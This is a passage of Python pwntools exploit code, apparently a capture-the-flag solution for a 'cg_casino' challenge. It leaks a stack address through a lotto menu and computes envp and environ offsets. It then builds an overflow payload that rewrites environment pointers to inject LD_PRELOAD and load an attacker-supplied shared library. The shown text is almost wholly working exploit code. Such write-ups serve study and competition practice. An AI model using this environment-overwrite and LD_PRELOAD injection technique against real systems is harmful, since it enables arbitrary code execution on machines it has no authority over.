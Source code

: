 ```python
    p.sendline(b'3')
    info(p.recvuntil(b'|  |  |  |  |  |  |\n===================\n'))
    if not leak:
        for number in numbers:
            p.sendline(number)
    else:
        p.sendline(b'A')
        p.sendline(b'A')
        p.sendline(b'A')
        line = p.recvline()
        leaked_low = int(line.split()[0])
        p.sendline(b'1')
        p.sendline(b'A')
        line = p.recvline()
        leaked_high = int(line.split()[0])
        for number in numbers:
            p.sendline(number)
        return (leaked_high << 32) | leaked_low

def slot_machine():
    info(p.recvuntil(b'6) exit'))
    p.sendline(b'5')
    p.sendafter(b'press any key', b'\n')

if __name__ == '__main__':
    while True:
        try:
            p = remote(HOST, PORT)

            lotto([b'1', b'2', b'3', b'4', b'5', b'6'])
            leaked = lotto([b'4', b'5', b'6'], leak=True)
            warning(f'leaked: {hex(leaked)}')

            addr_diff = leaked - 0x7fffffffdf10
            envp = 0x7fffffffe0a8 + addr_diff
            new_name = 0x7fffffffdf50 + addr_diff

            # Probably the address of environ
            environ = (envp & 0xfffffffff000) + 0x2276

            warning(f'envp: {hex(envp)}')
            warning(f'environ: {hex(environ)}')
            warning(f'new_name: {hex(new_name)}')

            with open('libfile/tputs.so', 'rb') as f:
                file_data = f.read().replace(b'\x0a', b'\x01')
            info(len(file_data))

            LD_PRELOAD = b'LD_PRELOAD=/home/cg_casino/voucher/mylib.so\x00'
            TERM = b'TERM=xterm-256color\x00'

            payload = b'mylib.so\x00'
            payload = payload.ljust(0x100, b'A')
            payload += LD_PRELOAD                   # new_name+0x100
            payload += TERM                         # new_name+0x100+len(payload)
            payload = payload.ljust(envp - new_name, b'A')
            payload += p64(new_name + 0x100)                # envp[0] = ld_preload
            payload += p64(new_name+0x100+len(LD_PRELOAD))  # envp[1] = term
            payload += p64(0)                               # envp[2] = NULL
            payload = payload.ljust(environ - new_name, b'A')
            payload += file_data
            payload += p64(0)
            
```